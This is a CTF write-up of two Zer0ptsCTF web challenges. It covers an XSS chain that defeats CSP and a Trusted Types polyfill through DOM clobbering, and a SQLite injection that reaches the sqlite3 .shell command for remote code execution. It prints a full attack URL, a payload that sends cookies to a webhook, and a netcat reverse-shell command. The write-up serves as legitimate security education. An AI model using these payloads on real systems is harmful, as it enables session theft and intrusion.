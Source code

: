 ```yaml
---
layout: post
title: Zer0ptsCTF - Web Exploitation
excerpt: "
Zer0pts challenges were well made and challenging. Shout out to all the web authors for coming up with these challenges, definitly learned more about client-side and server-side. Here are writeups for two of the challenges I worked on. "
categories: [writeups, Zer0ptsCTF'21]
tags: [web]
---
```


Zer0pts challenges were well made and challenging. Shout out to all the web authors for coming up with these challenges, definitly learned more about client-side and server-side. Here are writeups for two of the challenges I worked on. 

#### Simple Blog
```
Now I am developing a blog service. I'm aware that there is a simple XSS. However, I introduced strong security mechanisms, named Content Security Policy and Trusted Types. So you cannot abuse the vulnerability in any modern browsers, including Firefox, right?
```

This challenge gives us a really obvious HTML injection marker and we have to find some way to convert that to full XSS. As it is PHP wtih no filtering, we see that the following will let us insert any HTML by simply closing out the tag. i.e `"><h1>test</h1>`.
```php
<link  rel="stylesheet" href="/css/bootstrap-<?= $theme ?>.min.css">
<link  rel="stylesheet" href="/css/style.css">
```

The much more interesting function and what we have to bypass is the CSP which is given to be `<meta  http-equiv="Content-Security-Policy"  content="default-src 'self'; object-src 'none'; base-uri 'none'; script-src 'nonce-<?= $nonce ?>' 'strict-dynamic'; require-trusted-types-for 'script'; trusted-types default">` and a trusted types from the init function which is implemented through a polyfill.
```html
<script src="/js/trustedtypes.build.js" nonce="<?= $nonce ?>" data-csp="require-trusted-types-for 'script'; trusted-types default"></script>
```

The code which actually implements trustedTypes is the following.
```javascript
    // initialize blog
    const init = () => {
      // try to register trusted types
      try {
        trustedTypes.createPolicy('default', {
          createHTML(url) {
            return url.replace(/[<>]/g, '');
          },
          createScriptURL(url) {
            if (url.includes('callback')) {
              throw new Error('custom callback is unimplemented');
            }

            return url;
          }
        });
      } catch {
        if (!trustedTypes.defaultPolicy) {
          throw new Error('failed to register default policy');
        }
      }

      // TODO: implement custom callback
      jsonp('/api.php', window.callback);
    };

    init();
    </script>
```

To quickly summarize trusted types, it restricts certain actions on the DOM. In this case, when some HTML is created, it replaces `<>` and when a new script is created the src url is passed through the `createScriptURL` function.

Now let's think about how we can bypass this. Our goal should be to be able to create a script with a src to the JSONP endpoint and be able to control the actual response. The first problem we face is trusted types. No matter what we do, be it HTML injection or manipulating the javascript, we will not be able to call the JSONP endpoint with `?callback=ourpayload` because of trusted types. How can we bypass this? The important note here is that the admin is running Firefox. As of writing this blog, Firefox has not implemented trusted types by default, hence the need for the polyfill. What this also means is that the trustedTypes object referenced by the javascript is not a native call.

The first idea that came to mind was if we can abuse the fact that it is in a try catch. If we could somehow make it fail and not raise an error, we would be able to create script tags with the `?callback` parameter. In order to do this, we can use DOM clobbering. If the following HTML is injected into the page, trustedTypes will look at the HTML element and not the trustedTypes from the javascript.

`<form id=trustedTypes></form>`

However, this is not enough because the catch will still raise an Error and we still won't be able to call the JSONP endpoint. However, if we can make `!trustedTypes.defaultPolicy` to be true then the Error will not be raised. This means we can simply make our DOM clobber to be the following and we will effectively disable trusted types in Firefox.

`<form id=trustedTypes><output id=defaultPolicy>`

Finally, we can DOM clobber callback and that will be passed to `jsonp('/api.php', window.callback);` which will let us create a script element with `?callback=ourpayload`. In order to do this 1 level clobber, I used the following format which will get rid of the automatic `https://` appended to the payload.

`<a id=callback href=a:alert(1);>`

This is where another really neat trick comes in. The PHP code limits our callback payload to 20 characters and it is not nearly enough to execute the javascript needed to exfil the flag. The following is from the official writeup [here]() and allows executing payloads longer than 20 characters. What we can do is instead of putting our jayload in the callback, we can just use javascript to eval some data on the page. 

The payload passed to the callback parameter would look like this.
`<a href="a:jsonp(x)" id="callback"></a>`

And using our HTML injection, we can add another element like this.
`<a href="data:text/plain;base64,(Base64 encoded script)" id="x"></a>`

Our final URL sent to the admin looks like the following.
```
http://web.ctf.zer0pts.com:8003/?theme="><a id=callback href=a:jsonp(x)><form id=trustedTypes><output id=defaultPolicy><a href="data:text/plain;base64,(b64payload)" id="x"></a>
```

The content of the payload would be the following base64 encoded and we would get the cookie to our webhook.
```
location='https://webhook.site/asdf/'+document.cookie
```

Overall this was a very neat challenge in bypassing trusted types with DOM clobbering. The use of data decoding base64 inline is a cool idea and something to keep in mind for bypassing WAFs in the future.

#### Baby SQLi
```
Just login as admin.
```

This challenge was based around sql injection but in a very interesting and different manner. The core functionality was just a login page with a sqlite database backend. The most important code segments are the following.

```python
def sqlite3_query(sql):
    p = subprocess.Popen(['sqlite3', 'database.db'],
                         stdin=subprocess.PIPE,
                         stdout=subprocess.PIPE,
                         stderr=subprocess.PIPE)
    o, e = p.communicate(sql.encode())
    if e:
        raise Exception(e)
    result = []
    for row in o.decode().split('\n'):
        if row == '': break
        result.append(tuple(row.split('|')))
    return result

def sqlite3_escape(s):
    return re.sub(r'([^_\.\sa-zA-Z0-9])', r'\\\1', s)

def auth():
    # snip
    password_hash = hashlib.sha256(password.encode()).hexdigest()
    result = None
    try:
        result = sqlite3_query(
            'SELECT * FROM users WHERE username="{}" AND password="{}";'
            .format(sqlite3_escape(username), password_hash)
        )
    except:
        pass

    # snip
```

Summarizing the code, our username is passed to `sqlite3_escape`, formatted into a query, and sent to `sqlite3_query`. One thing to note here is that the escaping function adds a `\` infront of the block listed characters.  In addition, the way the query is ran is not through a sqlite3 library but rather with a Process.

Let's break this down one at a time. First, how are we even able to inject SQL? After a bit of googling, we found that sqlite escapes characters via double quotations, i.e `"a escaped "" wow"`. This will properly escape the quotation mark. However, as we looked at earlier the `sqlite3_escape` method adds backslashes. 

With this in mind, we are now able to craft queries like the following.

`SELECT * FROM users WHERE username="alice\"" AND password="asdf"`

This doesn't properly escape the quotation mark, rather it just throws an error. Now we can inject a semicolon and exit the statement! If our payload is `";`, our query now becomes the following.

`SELECT * FROM users WHERE username="alice\";" AND password="asdf"`

To make this exploitable, we used some attributes from the allow list. Two interesting things is that all whitespace (spaces, tabs, newlines) are allowed and periods (.) are allowed. We know that sqlite has special commands for statements that start with periods so we can think about how to exploit this.

What we ended up doing was adding a newline, calling the .shell function with arguments we wanted, and adding a final newline to get rid of the junk. This works because a newline is interpreted as a new command to the process. Although individual lines may error, the process is still running and thus our commands would still go through.

Our final payload was the following and has some tricks to make it smaller to reach the character limit where xxx.xx is your domain.

`";\n.shell nc xxx.xx 8 -e sh\n`

There are some things to address about our payload. First, why are we able to include a `-e` when it would become `\-e` and not work? This was discovered during testing by a teammate but we found that the `.shell` command actually expands the backslashes. This means it will actually become  `-e` when the command is executed.

Second, there are some optimizations to the nc reverse shell. The two main things were using a small port (8) and using `sh` instead of `/bin/sh`. Port 8 works but the listener must be run with sudo due to it not being a typically used port. The optimization to use `sh` came from local testing. I cannot say how important local testing is! If you are given the docker environment, like many of the zer0pts challenges were, always run the docker and try stuff out locally. You never know what you may find.

With this final payload, we are able to get a shell on the system and cat index.html for the flag. The description was a bit misleading as we needed RCE not just a typical sql injection but a very interesting challenge overall.
